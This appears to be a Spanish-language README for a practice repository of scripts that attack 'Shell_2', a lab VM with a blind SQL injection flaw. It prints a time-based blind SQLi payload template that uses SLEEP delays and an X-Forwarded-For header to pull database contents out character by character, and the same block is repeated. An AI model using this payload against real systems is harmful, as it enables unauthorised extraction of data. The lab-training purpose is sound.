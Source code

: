 # Shell2SQLi
Este repositorio contiene scripts utilizados para `Shell_2`, una máquina con vulnerabilidad SQLi Blind.

## Consideraciones de la máquina

Algunas consideraciones
> El host `192.168.44.134` no está editado en los scripts, la VM se utilizó con configuración NAT
> 
> Uso de encabezado `X-Forwarded-For`
> 
> https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval
> 
## Impacto vulnerabilidad SQLi

### Procedimiento:
Partiendo de la base en la que podemos validar una inyección exitosa con
```mysql
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
Procedimos a 
```MySQL
  1' OR IF((SELECT SUBSTRING($column,$position,1) FROM $db_name.$table_name LIMIT $row_index,1)='$char', SLEEP(0.043), 0) #
```
    
## Disclaimer

El autor no se hace responsable de algún uso inadecuado del repositorio que pueda causar impactos negativos. El propósito es y sólo es, con fines educativos.
Las contribuciones son bienvenidas, también siéntete libre de mejorar y modificar según sea necesario.
